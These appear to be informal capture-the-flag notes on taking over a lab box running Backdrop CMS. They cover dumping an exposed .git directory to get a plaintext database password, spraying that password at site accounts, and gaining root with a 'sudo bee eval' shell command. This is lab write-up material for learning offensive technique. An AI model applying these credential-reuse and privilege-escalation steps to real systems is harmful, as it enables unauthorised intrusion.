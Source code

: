 ___



Powered by [Backdrop CMS](https://backdropcms.org)


apache [2.4.41]



.git directory was found

-> there is hella dirs an ?q= in robots.txt

get git objects and explore that shit


*dumped and extracted .git dir*


$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

BackDropJ2024DS2024


I think  nothing else in here ? more enum -> subdomains + feroxbuster

dogBackDropSystem

dogBackDropSystem2024DS2024

-> this is a user on site


$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';


*found backdrop version*

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

*next time search the docs for the cms to find a file that gives  you the version*
*bruvs i spent so long looking :0*


*if you do grep -R "@dog.htb" to look for other accounts and spray creds into tiffany account u get access into the web ui*


*got a shell*

$ cd home
$ ls
jobert
johncusack


*dumped the users mysql table after upgrading my shell*


*jobert hash*
$S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1



*johncusack is the user with the user.txt flag so maybe try cracking that hash cause this finna take forever at this rate*

*jobert and johncusack are the 2 users with home dirs *


database password works on johncusack user



*this is prob its*

johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on
        dog:
    (ALL : ALL) /usr/local/bin/bee




*this got me root*

**Priv Esc When bee can run without password** 
#BackDrop CMS 
sudo bee eval "system('/bin/bash');"

#In case of `The required bootstrap level for 'eval' is not ready.` Error
#Find the application path  - generally in /var/www/html
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"

